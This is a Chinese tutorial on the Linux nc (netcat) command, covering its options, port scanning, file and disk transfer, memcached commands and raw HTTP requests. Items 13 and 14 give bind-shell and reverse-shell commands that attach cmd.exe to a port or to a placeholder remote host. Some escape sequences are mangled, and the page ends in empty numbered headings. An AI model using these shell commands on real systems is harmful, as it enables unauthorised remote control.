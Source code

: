 ##（一）linux nc命令使用详解

    
功能说明：功能强大的网络工具
语　　法：nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>][-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
参　　数：
 -g<网关>  设置路由器跃程通信网关，最丢哦可设置8个。
 -G<指向器数目>  设置来源路由指向器，其数值为4的倍数。
 -h  在线帮助。
 -i<延迟秒数>  设置时间间隔，以便传送信息及扫描通信端口。
 -l  使用监听模式，管控传入的资料。
 -n  直接使用IP地址，而不通过域名服务器。
 -o<输出文件>  指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
 -p<通信端口>  设置本地主机使用的通信端口。
 -r  乱数指定本地与远端主机的通信端口。
 -s<来源位址>  设置本地主机送出数据包的IP地址。
 -u  使用UDP传输协议。
-v 详细输出--用两个-v可得到更详细的内容
 -w<超时秒数>  设置等待连线的时间。
 -z  使用0输入/输出模式，只在扫描通信端口时使用。
 
nc使用示例
 
1. 端口扫描
# nc -v -w 2 192.168.2.34 -z 21-24
nc: connect to 192.168.2.34 port 21 (tcp) failed: Connection refused
Connection to 192.168.2.34 22 port [tcp/ssh] succeeded!
nc: connect to 192.168.2.34 port 23 (tcp) failed: Connection refused
nc: connect to 192.168.2.34 port 24 (tcp) failed: Connection refused
 
2. 从192.168.2.33拷贝文件到192.168.2.34
在192.168.2.34上： nc -l 1234 > test.txt
在192.168.2.33上： nc 192.168.2.34 < test.txt
 
3. 简单聊天工具
在192.168.2.34上： nc -l 1234
在192.168.2.33上： nc 192.168.2.34 1234
这样，双方就可以相互交流了。使用ctrl+C(或D）退出。
 
4. 用nc命令操作memcached
1）存储数据：printf “set key 0 10 6rnresultrn” |nc 192.168.2.34 11211
2）获取数据：printf “get keyrn” |nc 192.168.2.34 11211
3）删除数据：printf “delete keyrn” |nc 192.168.2.34 11211
4）查看状态：printf “statsrn” |nc 192.168.2.34 11211
5）模拟top命令查看状态：watch “echo stats” |nc 192.168.2.34 11211
6）清空缓存：printf “flush_allrn” |nc 192.168.2.34 11211 (小心操作，清空了缓存就没了）
 
5. nc -p 1234 -w 5 host.example.com 80
建立从本地1234端口到host.example.com的80端口连接，5秒超时
nc -u host.example.com 53
u为UDP连接
 
6. echo -n "GET / HTTP/1.0"r"n"r"n" | nc host.example.com 80
连接到主机并执行
 
7. nc -v -z host.example.com 70-80
扫描端口(70到80)，可指定范围。-v输出详细信息。
 
 
8. 远程拷贝文件
从server1拷贝文件到server2上。需要先在server2上，用nc激活监听，
 
server2上运行：
 
root@hatest2 tmp]# nc -lp 1234 > install.log
 
server1上运行：
 
[root@hatest1 ~]# ll install.log
-rw-r–r–  1 root root 39693 12月 20  2007 install.log
[root@hatest1 ~]# nc -w 1 192.168.228.222 1234 < install.log
 
9. 克隆硬盘或分区
操作与上面的拷贝是雷同的，只需要由dd获得硬盘或分区的数据，然后传输即可。
克隆硬盘或分区的操作，不应在已经mount的的系统上进行。所以，需要使用安装光盘引导后，进入拯救模式（或使用Knoppix工 具光盘）启动系统后，在server2上进行类似的监听动作：
# nc -l -p 1234 | dd of=/dev/sda
 
server1上执行传输，即可完成从server1克隆sda硬盘到server2的任务：
# dd if=/dev/sda | nc 192.168.228.222 1234
 
※ 完成上述工作的前提，是需要落实光盘的拯救模式支持服务器上的网卡，并正确配置IP。
 
 
 
10. 保存Web页面
# while true; do nc -l -p 80 -q 1 < somepage.html; done
 
11. 模拟HTTP Headers,获取网页源代码和返回头部信息
 
[root@hatest1 ~]# nc 80
GET / HTTP/1.1
Host: ispconfig.org
Referrer: mypage.com
User-Agent: my-browser
 
HTTP/1.1 200 OK
Date: Tue, 16 Dec 2008 07:23:24 GMT
Server: Apache/2.2.6 (Unix) DAV/2 mod_mono/1.2.1 mod_python/3.2.8 Python/2.4.3 mod_perl/2.0.2 Perl/v5.8.8
Set-Cookie: PHPSESSID=bbadorbvie1gn037iih6lrdg50; path=/
Expires: 0
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Cache-Control: private, post-check=0, pre-check=0, max-age=0
Set-Cookie: oWn_sid=xRutAY; expires=Tue, 23-Dec-2008 07:23:24 GMT; path=/
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
[......]
在nc命令后，输入红色部分的内容，然后按两次回车，即可从对方获得HTTP Headers内容。
 
 
12. 传输目录
从server1拷贝nginx-0.6.34目录内容到server2上。需要先在server2上，用nc激活监听，server2上运行：
引用
 
[root@hatest2 tmp]# nc -l 1234 |tar xzvf -
server1上运行：
引用
 
[root@hatest1 ~]# ll -d nginx-0.6.34
drwxr-xr-x 8 1000 1000 4096 12-23 17:25 nginx-0.6.34
[root@hatest1 ~]# tar czvf – nginx-0.6.34|nc 192.168.228.222 1234
 
 
13.REMOTE主机绑定SHELL
例子：
 
格式：nc -l -p 5354 -t -e c:\winnt\system32\cmd.exe
讲解：绑定REMOTE主机的CMDSHELL在REMOTE主机的TCP5354端口
 
 
14.REMOTE主机绑定SHELL并反向连接
例子：
 
格式：nc -t -e c:\winnt\system32\cmd.exe 192.168.x.x 5354
讲解：绑定REMOTE主机的CMDSHELL并反向连接到192.168.x.x的TCP5354端口
以上为最基本的几种用法（其实NC的用法还有很多，
当配合管道命令"|"与重定向命令"<"、">"等等命令功能更强大......）。
   
##（二）

##（三）

##（四）

##（五）

##（六）

##（七）

##（八）

##（九）

##（十）